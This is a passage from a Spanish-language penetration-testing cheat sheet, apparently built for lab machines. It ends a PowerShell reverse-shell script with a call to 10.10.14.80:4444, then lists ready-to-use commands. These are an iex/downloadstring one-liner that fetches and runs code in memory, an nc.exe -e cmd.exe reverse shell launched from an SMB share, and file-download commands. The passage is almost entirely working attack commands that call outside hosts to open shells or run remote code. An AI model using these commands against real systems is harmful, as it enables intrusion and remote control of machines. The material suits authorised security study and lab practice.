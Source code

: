 ```powershell
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.80 -Port 4444

```

Para descargar y en memoria:

```
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')
```

### RCE via nc

En kali seclist tiene nc.exe

![image](https://github.com/gecr07/Acordeon/assets/63270579/da729171-7475-4f3c-9968-2aafbc38b221)

De donde s4vitar baja su nc.exe

> https://eternallybored.org/misc/netcat/

```

\\10.10.14.80\share\nc.exe -e cmd.exe 10.10.14.80 443

```
> https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/
> https://www.hackingarticles.in/windows-for-pentester-certutil/
> https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

## Descargar archivos

Algunos comando no se pueden usar debido a las versiones de powershell por ejemplo el siguiente

```
Invoke-WebRequest -Uri 'http://192.168.230.128:8000/iisfinal.txt' -OutFile '.\iisfinal.txt'
```

Y la que por lo que entiendo carga ya el codigo en la memoria

```
powershell iex(new-object net.webclient).downloadstring('http://10.10.14.80:8000/Invoke-PowerShellTcp.ps1')
```

